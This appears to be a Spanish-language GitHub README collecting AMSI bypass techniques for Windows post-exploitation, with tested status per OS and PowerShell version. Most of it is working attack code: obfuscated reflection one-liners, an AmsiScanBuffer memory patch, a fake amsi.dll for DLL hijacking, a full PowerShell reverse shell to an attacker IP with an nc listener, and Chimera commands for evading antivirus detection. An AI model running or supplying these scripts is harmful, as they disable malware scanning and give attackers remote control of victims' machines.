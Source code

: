 # Evasión de AMSI #

Este repositorio contiene algunos métodos de evasión de AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022

Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron de lado técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramientas de ofuscación como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Metodo Reflection de Matt Graeber (base64)](#Método-Reflection-de-Matt-Graeber-(base64) "Goto Método-Reflection-de-Matt-Graeber-(base64)")
2. [Error Forzado](#Error-Forzado "Goto Error-Forzado")
3. [DLL Hijacking](#DLL-Hijacking "goto DLL-Hijacking")
4. [Memory Patching](#Memory-Patching "Goto Memory-Patching")
5. [Ofuscación con Chimera](#Ofuscación-con-Chimera "Goto Ofuscación-con-Chimera")

## Método Reflection de Matt Graeber (base64) ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>

## DLL Hijacking ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Falla-red) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Para hacerlo funcionar deben copiar la [amsi.dll](amsi.dll) que está en el repositorio (está compilada para x64). Si deseas compilar tu propia DLL abajo tienes el código fuente:

<details><summary>Código de la amsi.dll falsa</summary>
<p>
 
````C++
#include "pch.h"
#include "iostream"
 
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        LPCWSTR appName = NULL;
        typedef struct HAMSICONTEXT {
            DWORD       Signature;            // "AMSI" or 0x49534D41
            PWCHAR      AppName;           // set by AmsiInitialize
            DWORD       Antimalware;       // set by AmsiInitialize
            DWORD       SessionCount;      // increased by AmsiOpenSession
        } HAMSICONTEXT;
        typedef enum AMSI_RESULT {
            AMSI_RESULT_CLEAN,
            AMSI_RESULT_NOT_DETECTED,
            AMSI_RESULT_BLOCKED_BY_ADMIN_START,
            AMSI_RESULT_BLOCKED_BY_ADMIN_END,
            AMSI_RESULT_DETECTED
        } AMSI_RESULT;
 
        typedef struct HAMSISESSION {
            DWORD test;
        } HAMSISESSION;
 
        typedef struct r {
            DWORD r;
        };
 
        void AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext);
        void AmsiOpenSession(HAMSICONTEXT amsiContext, HAMSISESSION * amsiSession);
        void AmsiCloseSession(HAMSICONTEXT amsiContext, HAMSISESSION amsiSession);
        void AmsiResultIsMalware(r);
        void AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiScanString(HAMSICONTEXT amsiContext, LPCWSTR string, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiUninitialize(HAMSICONTEXT amsiContext);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
````
 </p>
</details>

Una vez copiado el archivo, ejecuta el siguiente código en PowerShell:

````PowerShell
Copy-Item -Path C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Destination $pwd
& "$pwd\powershell.exe"
````

## Memory Patching ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

<details><summary>Ver Script</summary>
<p>

```PowerShell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>

## Ofuscación con Chimera ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

Una vez instalado [Chimera](https://github.com/tokyoneon/Chimera) debemos adecuar el script para que se comunique con nuestra máquina atacante:

 ```bash
/opt/chimera$ sed -i 's/192.168.56.101/10.0.2.5/g' shells/*.ps1
 ```
 
Y posteriormente levantar nuestra Reverse Shell:
 
 ```bash
nc -nlvp 4444
 ```
 
<details><summary>Nuestra Reverse Shell en PowerShell sin ofuscar</summary>
<p>
 
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("10.0.2.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
</p>
</details>

Para ofuscarlo debemos ejectar el siguiente comando (sin -b) e ir probando el resultado en [VirusTotal](https://www.virustotal.com/gui/home/upload). En los detalles alertan las siguientes funciones: new-object y out-string. Mirando la ayuda esto es lo que podemos hacer con Chimera:

-f: Archivo de entrada.<br>
-o: Archivo de salida.<br>
-v: Substituir nombres de variables.<br>
-t: Substuir tipos de datos.<br>
-j: Substituir nombres de funciones.<br>
-i: Insertar comentarios arbitrarios.<br>
-c: Replazar comentarios con datos arbitrarios.<br>
-h: Convertir direcciones IP addresses a hexadecimal.<br>
-s: Substitute various strings.<br>
-b: Marcado de palabras (importante).<br>

```bash
/opt/chimera.sh -f /opt/shells/powershell_reverse_shell.ps1 -o /tmp/chimera.ps1 -l 4 -v -c -i -j -g -r -p -b new-object,out-string
 ```
